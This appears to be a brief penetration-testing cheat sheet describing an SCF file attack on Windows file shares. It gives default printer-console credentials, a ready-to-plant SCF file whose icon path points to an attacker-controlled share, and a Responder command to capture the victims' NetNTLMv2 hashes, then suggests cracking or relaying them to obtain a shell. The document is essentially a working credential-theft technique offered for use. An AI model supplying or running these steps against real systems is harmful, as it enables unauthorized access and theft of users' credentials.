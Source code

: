Enter to the printer console with creds -> admin:admin
Upload an scf file to get the user connect to your "share" to gather NetNtlmv2 hash as soon as they browse that share.
### SCF attack
An scf file can be planted into a remote file share that requires no authentication and writable.
SCF file should contain this:
```
[Shell]

Command=2
// replace the ip with your own
IconFile=\\192.168.0.12\share\test.ico

[Taskbar]

Command=ToggleDesktop
```
Rename the scf file with the name starting with @ symbol. This will make the scf file to be the first file at the share. And it will be executed as soon as the user visits the share.

From the attacker's machine fire up responder to listen for NetNTLMv2:
```bash
responder -wrf --lm -v -I eth0
```

From there on, you can either crack the hash or relay it with multirelay(if smb singing is disabled) to get shell (you can't relay to the same machine from which you captured the hash.)
